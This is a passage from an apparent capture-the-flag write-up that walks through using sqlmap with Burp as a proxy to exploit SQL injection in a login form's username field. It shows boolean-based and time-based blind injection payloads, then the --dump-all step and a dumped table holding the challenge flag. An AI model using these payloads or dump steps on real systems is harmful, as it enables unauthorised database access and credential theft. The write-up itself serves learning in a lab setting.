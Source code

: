 
<code>--proxy</code> Specifies a proxy to use (We default to BURP), this helps gathering a new anti-CSRF token automatically


<code>--level=5 --risk=3</code> This parameters enable us to perform a deeper scan (Which finds the vulnerability we'll be using)


Go take a shower or make a coffee, this takes it's time.


If sqlmap asks you permission to update the CSRF token automatically, say 'Y'


Same for cookies!


IMPORTANT! If it asks you to follow a 302 redirect, say no!


At the end, you should see something like this:


{{< highlight bash >}}
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
Type: boolean-based blind
Title: OR boolean-based blind - WHERE or HAVING clause (NOT - comment)
Payload: csrfmiddlewaretoken={YOUR_TOKEN_HERE}&username=admin%' OR NOT 2702=2702-- CFzp&password=admin


Type: time-based blind
Title: SQLite > 2.0 OR time-based blind (heavy query)
Payload: csrfmiddlewaretoken={YOUR_TOKEN_HERE}&username=admin%' OR 2531=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2)))) AND 'kTvW%'='kTvW&password=admin
---
{{< /highlight >}}


If that's the case, congrats! You've got halfway through the challenge, now use the second payload to dump the database.

The only difference in the command is that you'll have to add <code>--dump-all</code> to start dumping the database
using the time-based SQLi. This will take a lot of time, be patient.

You could also try to dump individual tables but it's funnier to retrieve the entire DB, I'll leave it as an exercise for the reader to find how
to do so.

If you leave it running enough time you'll get not only the flag, but the real admin password too:

{{< highlight sql >}}
Database: <current>
Table: advent_code
[1 entry]
+----+-----+----------------------------------+
| id | 100 | solution                         |
+----+-----+----------------------------------+
| 1  | 100 | daFAkeRCUywkDTdCjuQwByTWPXiVKnyS |
+----+-----+----------------------------------+
